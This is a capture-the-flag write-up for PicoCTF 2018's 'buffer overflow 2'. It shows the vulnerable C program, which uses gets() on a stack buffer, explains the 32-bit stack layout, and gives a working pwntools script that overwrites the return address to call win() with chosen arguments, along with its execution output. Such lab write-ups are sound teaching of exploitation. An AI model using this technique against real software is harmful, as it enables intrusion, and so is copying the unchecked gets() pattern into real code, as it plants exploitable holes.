 ```yaml
---
title: Call a function with arguments - 32 bits 
description: Exploiting a buffer overflow to call a function with specific arguments in 32 bits architecture.
---
```


# Buffer Overflow - Calling a function with args

## Summary

Exploiting a buffer overflow to call a function with specific arguments.

## Challenge

### Description

!!! note ""
    Challenge : `buffer overflow 2` from PicoCTF 2018.

Alright, this time you’ll need to control some arguments. Can you get the flag from this program?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Writeup

```shell
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f2f6cce698b62f5109de9955c0ea0ab832ea967c, not stripped
```

The goal of this challenge is to call the **win** function with the two arguments, **0xDEADBEEF** and **0xDEADC0DE**. As you have probably noticed, the **vuln** function is vulnerable to a buffer overflow attack which allows us to rewrite **EIP** and thus call the **win** function. We can pass it the two required arguments using the stack as we are in 32 bits.

| Stack          |
| :------------: |
| EIP            |
| Return address |
| Argument n°1   |
| Argument n°2   |
| ...            |

```python linenums="1"
#!/usr/bin/env python3
from pwn import process, p32, ELF

# Run the binary
PROGRAM = "./vuln"
p = process(PROGRAM)

# Setup the payload
elf = ELF(PROGRAM)
win_func_addr = p32(elf.symbols["win"])
arg1 = p32(0xDEADBEEF)
arg2 = p32(0xDEADC0DE)
padding = ("A" * (100 + 12)).encode() # BUFSIZE + stuff we do not care about
padding2 = ("A" * 4).encode() # Override the return address

payload = padding + win_func_addr + padding2 + arg1 + arg2

# Sending the payload
p.sendlineafter("your string: \n", payload)
p.interactive()
```

Execution :

```shell
$ echo "ggflag" > flag.txt
$ python3 solve.py 
[+] Starting local process './vuln': pid 13568
[*] '/home/xxx/pico/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x04AAAAﾭ\xde\xde\xc0\xad\xde
ggflag
[*] Got EOF while reading in interactive
$ 
```
